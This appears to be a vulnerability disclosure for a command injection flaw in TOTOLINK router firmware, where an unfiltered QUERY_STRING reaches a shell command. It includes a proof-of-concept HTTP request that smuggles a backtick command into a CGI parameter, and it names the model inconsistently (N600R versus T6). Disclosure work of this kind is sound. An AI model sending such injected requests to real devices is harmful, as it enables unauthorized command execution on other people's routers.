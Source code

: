 # TOTOLINK N600R V5.3c.7159_B20190425 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as T6 V5.9c.4085_B20190428
- **Firmware download address:**http://www.totolink.cn/data/upload/20210717/bc2b1d2206c4a7b1753c3d870cb15bff.zip



## Description

### 1.Product Information:

TOTOLINK N600R V5.3c.7159_B20190425 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/1.png)



### 2. Vulnerability details

TOTOLink T6 V5.9c.4085_B20190428 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)
